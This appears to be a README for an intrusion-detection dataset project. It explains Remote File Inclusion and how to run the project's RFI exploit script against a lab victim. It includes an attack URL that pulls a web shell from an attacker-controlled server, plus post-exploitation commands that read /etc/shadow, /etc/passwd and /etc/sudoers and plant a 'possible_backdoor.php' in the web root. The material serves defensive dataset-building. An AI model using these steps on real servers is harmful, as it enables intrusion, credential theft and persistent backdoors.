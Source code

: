 # **Remote File Inclusion**

## **Table of Contents**

* **[Explaining the Attack](#explaining-the-attack)**
* **[How to Use](#how-to-use)**
  * **[Configurations](#configurations)**
  * **[Interactive Mode](#for-interactive-mode)**
  * **[Repeat Mode](#for-repeat-mode)**

<br/>


## **Explaining the attack**
---

<br/>

A Remote File Inclusion vulnerability is when an application dynamically references external scripts, and those references can be, in some way, manipulated by the attacker.

This attacker will try to use the vulnerability to reference a malware file (e.g. web shells) that will be then included by the application.

In our case we simulated a pretty basic web page with a RFI vulnerability:

![image](https://github.com/LeoPer02/IDS-Dataset/assets/101013606/acc8ea53-4b36-47bb-abee-5d1b4953c8c7)

If you look at the URL you can see that we are grabbing the value of `file`.

![image](https://github.com/LeoPer02/IDS-Dataset/assets/101013606/47180119-a87f-4233-9e67-e68540dbdef0)


Now looking at the code we can see that the php script grabs the value of `file` and includes it.
This of course is a big security problem, since the attacker controls the value of the file variable.

The way we exploit this vulnerability can be summed up in the following steps:

* Generate a web shell that will be uploaded into the web page.
* Open a listener for the the web shell.
* Send a request with a general format of: ```http://victim.com/vulnerable.php?file=http://attacker_controled_server.com/web_shell.php```.
* Receive connection.
  * If in interactive mode allow the user to send arbitrary commands.
  * If in repeat mode execute some commands likely to be used by an attacker ```cat /etc/passwd, cat /etc/shadow, pwd, whoami, uname -a```, etc. and then exit.

![image](https://github.com/LeoPer02/IDS-Dataset/assets/101013606/abca75f5-ed35-4224-b556-d15c9a99c10d)

This is the interface the user will be presented with when executing the attack in interactive mode.

<br/>

## **How to use**
---
<br/>

This exploit can be ran in **interactive** and **repeat** mode.

From the **/path/to/project/IDS-Dataset/Attacks/WP** folder,

<br/>

### **Configurations:**

If you built the victim machine from scratch using our script you can use the following settings for the RFI attack:

``` Shell
sudo python3 main.py -c # To start the configuration process

Attacker ip: # Check the ip address with ' ifconfig '
Victim ip: # Check the ip address with ' ifconfig '
Exploit: 6
HTTPS: n
Victim Port: 80
Resource to access: /file_inclusion.php?file=
Is it correct: y
Activate auditing: y # Make sure the server is on, check Aux README for information
```

<br/>

### **For interactive mode:**
``` Shell
sudo python3 main.py # Don't forget to configure the config.ini on the 1st attack
```

This will print an address in the terminal that when clicked on will redirect you to the web shell with interface.

<br/>

### **For Repeat mode:**
``` Shell
sudo python3 main.py -r {number_times}
```

<br/>

This will utilize the RFI vulnerability to execute a bunch of commands that are likely to be executed by an attacker:
``` Shell
whoami
ls
ls -ltr
cat /etc/shadow
cat /etc/passwd
cd /
id
netstat
uname -a
crontab -l
lsmod
cat /etc/sudoers
cat /etc/os-release
ip link show
cd $(grep -e DocumentRoot -R /etc/apache2/sites-enabled/ | awk '{ print $3 }') && echo 'PoC, injected through RFI' | cat > possible_backdoor.php
```

